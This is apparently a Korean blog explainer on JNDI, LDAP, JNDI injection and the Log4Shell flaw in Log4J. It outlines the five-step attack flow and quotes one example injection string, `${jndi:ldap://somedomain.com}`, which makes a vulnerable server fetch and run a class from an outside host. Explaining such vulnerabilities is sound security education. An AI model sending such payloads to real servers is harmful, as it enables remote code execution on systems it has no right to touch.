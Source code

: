 ![Untitled](/images/20220901/Untitled%203.png)

- JNDI Operations

![Untitled](/images/20220901/Untitled%204.png)

좀 더 자세히 살펴보면, Java App은 Java API를 통해 Look-Up(특정 Name/Object 찾기)을 진행한다. 이때 Java API는 Client Context, 즉, Client 단이다. 이런 Name 및 Object를 참조해오는 것은 어느 Server로 부터 갖고 오는 것인데, 그 서버의 Name & Directory Service가 각기 다름으로 그에 맞는 형태로 알맞게 연결해주는 것이 SPI다.

- **LDAP**??? = LDAP은 Lightweight Directory Access Protocol의 약자로 말그대로 하나의 Protocol이다. 이 Protocol은 Network를 통해 다른 디렉토리 서비스와 통신하기 위한 ‘언어’와 ‘응용프로그램’을 제공한다. (Directory Service는 계정, 비밀번호, 등을 보관하고 있다)

## JNDI Injection

JNDI Injection 다소 생소하고 모르는 개념이었다. 2016년 BlackHat에서 있었던 발표에서 JNDI를 굉장히 잘 설명하고 있다.

![[https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)](/images/20220901/Untitled%205.png)

[https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)

위 그림을 살펴보면 총 5단계가 존재하는 것을 확인 할 수 있다.

1. 공격자는, 공격 Payload를 공격자의 Naming & Directory Service에 바인딩한다. (JNDI Injection의 핵심은 Naming & Directory Service를 Lookup할 때 공격자의 서버로 Lookup하도록 하는 것이다. 즉 외부에서 공격페이로드를 사용했을 때, 공격자의 서버에 호출이 가도록 하기 위한 것이다.)
2. 공격자는 취약한 JNDI Lookup 메소드를 사용하는 서버에 공격자의 Naming & Directory Service 서버를 가르키는 URL(or Payload)를 삽입한다.
3. 취약한 Application을 갖고 있는 서버는 Lookup을 수행
4. 취약한 Application은 공격자의 Naming & Directory Service를 수행하는 서버에 연결하고, 공격자의 서버는 공격코드를 반환한다.
5. 취약한 Application은 해당 Response 값을 해독하여 실행시킨다.

## Log4J

### Log4J 원인

Log4J는 “Message Lookup Substitution”이라는 기능을 제공하는데, 해당 기능은 특정 문자열 다른 문자열로 치환되도록한다. (Message Lookup Substitution : [https://logging.apache.org/log4j/2.x/manual/lookups.html](https://logging.apache.org/log4j/2.x/manual/lookups.html))

예를 들면 `Running ${java:runtime}` 이라는 문자열이 Logging되면 다음으로 바뀌면서 저장된다, `Running Java version 1.7.0_67`.

그리고 이 상황에서 JNDI와 LDAP 프로토콜을 함께사용하면 특정 서버로부터 Java Class를 갖고와 Deserialize를 하여 RCE가 가능하다. ( Ex : `${jndi:ldap://somedomain.com}` ) 

### Log4J Scenario

정말 간략하게 요약하자면 Log4Shell 취약점이 발생한것은, Log가 서버에 저장되면서, JNDI Lookup이 실행되어 타 서버로 부터 파일을 갖고오면서 발생한다. 이때 이 파일은 Java .class 파일로, 실행 파일이다.

Log4J는 JNDI API를 이용하여 서비스 제공자들로부터 Naming 및 Directory Service를 제공받는다. 

Ex: LDAP, COS, RMI, DNS, 등
